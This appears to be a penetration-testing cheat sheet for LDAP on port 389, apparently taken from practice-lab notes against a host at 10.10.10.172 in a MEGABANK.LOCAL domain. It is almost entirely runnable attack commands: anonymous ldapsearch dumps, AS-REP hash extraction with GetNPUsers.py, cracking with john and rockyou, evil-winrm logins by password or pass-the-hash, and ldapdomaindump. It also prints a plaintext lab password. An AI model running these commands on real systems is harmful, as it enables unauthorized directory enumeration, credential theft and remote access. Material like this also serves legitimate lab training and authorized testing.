 # Port 389 - LDAP

## LDAPSearch

LdapSearch Naming Context Dump:

```bash
ldapsearch -h 10.10.10.172 -x -s base namingcontexts
```

### LdapSearch Big Dump

Need Naming Context to do big dump:

```bash
ldapsearch -h {IP} -x -b "{Naming_Context}"
```

### Query users in LDAP

```bash
ldapsearch -h 10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" '(objectClass=Person)'
```

## Extract hash >> Crack >> Connect

```bash
# Get users hashes
python GetNPUsers.py MEGABANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.172
python GetNPUsers.py -request MEGABANK.LOCAL/ -dc-ip 10.10.10.172

# Crack the hashes
john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Connect with Evil-winrm
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172

# Connect using username&hash
evil-winrm -u mhope -H 'HASHDKASUDHASKUDWXADYASDASJDH' -i 10.10.10.172
```

## LDAP Domain Dump

```
ldapdomaindump $IP -u 'fusion.corp\lparker' -p '****************' --no-json --no-grep
```